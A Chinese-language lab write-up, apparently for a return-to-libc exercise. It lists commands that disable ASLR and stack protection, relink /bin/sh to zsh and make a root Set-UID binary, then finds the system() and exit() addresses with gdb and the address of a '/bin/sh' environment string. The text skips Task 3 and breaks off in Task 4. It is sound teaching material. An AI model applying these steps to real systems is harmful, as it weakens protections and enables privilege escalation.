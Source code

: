 # Environment Setup

- 使用-m32标志编译为32位的程序
- 关闭地址随机化：`sudo sysctl -w kernel.randomize_va_space=0`
- 使用`-fno-stack-protected` 选项在编译期间禁用StackGuard保护，比如`gcc -m32 -fno-stack-protector example.c`

- 程序(和共享库)的二进制映像必须声明它们是否需要可执行堆栈。通过在程序头中标记一个字段来决定这个正在运行的程序的堆栈成是可执行的/不可执行的。最近版本的Ubuntu默认程序堆栈是不可执行的，可以通过`-z execstack`选项来使得堆栈可执行
- 为了简化攻击难度，我们需要将/bin/sh指向/bin/zsh。在 Ubuntu 20.04中，/bin/sh 符号链接指向/bin/dash shell，此shell具有保护机制：如果dash是在 Set-UID 进程中执行的，那么它会立即将有效用户 ID 更改为实际用户 ID，也即是会放弃其特权。`sudo ln -sf /bin/zsh /bin/sh`

综上：

```shell
sudo sysctl -w kernel.randomize_va_space=0

sudo ln -sf /bin/zsh /bin/sh

gcc -m32  -fno-stack-protector -z noexecstack -o retlib retlib.c

sudo chown root retlib

sudo chmod 4755 retlib

touch badfile 

./retlib
```



# Task 1: Finding out the Addresses of libc Functions

在 Linux 中，当一个程序运行时，libc 库将被加载到内存中。当内存地址随机化被关闭时，对于同一个程序，库总是加载在相同的内存地址中(对于不同的程序，libc 库的内存地址可能是不同的)。因此，我们可以使用 gdb 这样的调试工具轻松找到 system ()的地址

可以将gdb的批处理命令写在gdb_command.txt中，然后输入

```shell
gdb -q -batch -x gdb_command.txt ./retlib
```

gdb_command.txt：

```
break main
run
p system
p exit
quit
```

system地址：0xf7e11420

exit地址：0xf7e03f80

# Task 2: Putting the shell string in the memory

我们的目的是触发system()函数，且参数是`/bin/sh`，这样就可以得到shell。因此，我们必须先知道字符串`/bin/sh`的地址

可以使用环境变量的方式实现上述目标

```shell
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

编写程序./prtenv打印出`/bin/sh`字符串所在地址，注意到文件名和retlib必须都是相同字符数目

```c
#include<stdio.h>

void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
    	printf("%x\n", (unsigned int)shell);
}
```

得到地址为`ffffd45d`





# Task 4: Defeat Shell’s countermeasure

回忆一下防御机制：如果dash是在 Set-UID 进程中执行的，那么它会立即将有效用户 ID 更改为实际用户 ID，也即是会放弃其特权

之前我们手动将sh指向zsh，这个任务中我们需要















